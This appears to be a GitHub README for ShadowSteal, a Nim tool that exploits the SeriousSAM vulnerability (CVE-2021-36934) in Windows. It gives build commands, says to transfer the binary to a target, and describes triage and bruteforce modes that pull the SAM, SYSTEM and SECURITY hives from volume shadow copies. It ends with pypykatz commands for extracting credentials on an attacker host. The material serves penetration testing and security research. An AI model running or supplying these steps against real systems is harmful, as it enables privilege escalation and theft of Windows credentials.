

# ShadowSteal | CVE-2021-36934
Pure Nim implementation for exploiting CVE-2021-36934, the SeriousSAM Local Privilege Escalation (LPE). Nothing fancy, basically just a wrapper for PowerShell copy, but does save some time if you're triaging vulnerable hosts. Not OPSEC safe.... yet ;). I do not claim credit for the discovery of this exploit.

## Quick Start
```
$ sudo apt-get install nim
```
```
$ nimble install zippy argparse winim
```

Install the MinGW tool chain if it's not already installed.
```
$ sudo apt-get install mingw-w64
```
```
$ git clone https://github.com/HuskyHacks/ShadowSteal.git && cd ShadowSteal
```
```
$ make && cd bin/ && ls -l
```
Transfer to target...
```
PS C:\Users\husky\Desktop> .\ShadowSteal.exe -h
```

## Summary
Due to some oversight by Microsoft, regular users have read permissions over the contents of the ...\System32\config\ folder in recent Windows builds. Among other things, this means that a low level user has read access to the SAM, System, and Security files in ...\System32\config.



Ooof. So what can we do with this?

Some very observant researchers (shout out [@jonasLyk](https://twitter.com/jonasLyk)!) noticed that if a Windows host has been using a specific system restore configuration, "Volume Shadow Copies", then the host stores backup copies of these files that are accessible via the Win32 device namespace for these copies.


The SAM is normally locked during the host's operation, so accessing the SAM in ...\System32\config\ is out of the question. But these shadow volume copies are fair game for any user on the host due to this misconfiguration. Very nice!

## ShadowSteal

ShadowSteal is a binary written in Nim to automate the enumeration and exfiltration of the SAM, System, and Security files from these shadow copies. It iterates through the possible locations of the shadow copies and, when it has found a target, it extracts the files to a zipped directory (think Bloodhound output).


Features:
- Triage and Bruteforce mode, for thorough or rapid enumeration.
- Automated extraction and rollup of target credentials.
- Jeff Beezy mode. (wait, what?)
- WIll enumerate all available HarddiskShadowCopy locations, pick the highest number dynamically, and target those for exploitation/extraction.


It's nothing earth shattering and the code is hacky, but it works and it was a fun build!

## Setup

Install Nim:

```
$ sudo apt-get install nim
````
Install dependencies:
```
$ nimble install zippy argparse
```
Install the MinGW tool chain if it's not already installed:
```
$ sudo apt-get install mingw-w64
```

Compile for 64-bit Windows:
```
$ make
```

Transfer to target and run it!
## Usage

```
PS C:\Users\husky\Desktop> .\ShadowSteal.exe -h
[*] ShadowSteal! Identifies and extracts credentials that can be stolen due to the SeriousSAM (CVE-2021-36934) exploit. Searches from high to low, defaults searching 100 to 1.

Usage:
   [options]

Options:
  -h, --help
  -t, --triage               [*] Triage mode. Quick enumeration, tries to find quick wins.
  -bf, --bruteforce          [*] Bruteforce mode. Enumerates the entire range of possible locations (512 to 1). Takes a bit.
  -b, --bezos                [?] Jeff Bezos Mode
```

## Triage mode
Limits location bruteforce to 10 to 1, decrementing with each attempt. Speedy and effective in most environments.
```
PS C:\Users\husky\Desktop> .\ShadowSteal.exe -t
```

## Bruteforce mode
Searches all possible locations (512), decrementing down to 1. Try this to thoroughly enumerate the environment. Takes a few minutes.
```
PS C:\Users\husky\Desktop> .\ShadowSteal.exe -bf
```

## Parsing Output

Transfer the output directory back to your attacker host and carve the data with Pypykatz. To install:
```
$ pip3 install pypykatz
```
To run Pypykatz:
```
$ pypykatz registry [yyyyMMddhhmm_SYSTEM] --sam [yyyyMMddhhmm_SAM] --security [yyyyMMddhhmm_SECURITY]
```


## Release History

###  v.03.69 | the N I C E update
Lean and mean. Optimized compile options added. HUGE performance increase due to compiler optimization, full bruteforce now takes place almost instantly. Huge thanks to @orbitalgun for the pseudo PR, glory be to your house and name!

### v.02 THE JEFF BEEZY UPDATE
- Bruteforce and Triage mode
- A better search algo
- Code cleanup
- Jeff Beezy Mode
- Lots of lessons learned from the first release!

### v.01 THE LAUNCHPAD RELEASE
Stap in boiz, this trainwreck is a-rollin. This release was my rapid prototype and it was pretty terrible lol. Lots of fun to build though!
Features:
- "Working" code

## References

- Original disclose of this CVE by by [@jonasLyk](https://twitter.com/jonasLyk).
- [CVE Reference page](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36934)
- Lyric credit: Bezos I by Bo Burnham. All Rights Reserved.

## Disclaimer

- For legal, ethical use only.


